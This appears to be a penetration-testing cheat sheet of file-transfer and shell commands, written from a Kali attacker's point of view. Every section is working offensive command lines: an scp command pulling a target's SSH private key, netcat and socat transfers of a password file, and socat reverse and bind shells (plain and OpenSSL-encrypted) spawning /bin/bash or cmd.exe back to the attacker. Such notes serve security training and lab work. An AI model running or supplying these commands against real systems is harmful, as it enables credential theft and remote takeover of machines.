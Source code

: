 ```yaml
---
category: Uncategorized
tags: []
---
```

#### scp
```bash - kali
scp -P 22 <USER>@$TARGET:/home/git/.ssh/id_rsa .
```

#### netcat
On the receiving end running,

```
nc -l -p 1234 > out.file
```

will begin listening on port 1234.

On the sending end running,

```
nc -w 3 [destination] 1234 < out.file
```

#### Socat File Transfer
Sender:
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Receiver:
```
socat TCP4:$KALI:443 file:received_secret_passwords.txt,create
```

#### Socat Reverse Shells
```
socat -d -d TCP4-LISTEN:443 STDOUT
```

```
socat TCP4:$TARGET:443 EXEC:/bin/bash
```

#### Socat Encrypted Bind Shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

KALI:
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

TARGET:
```
socat - OPENSSL:$KALI:443,verify=0
```

#### Socat Encrypted Reverse Shell

```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```

```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
KALI:
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```

WINDOWS:
```
socat OPENSSL:$KALI:4443,verify=0 EXEC:'cmd.exe',pipes
```




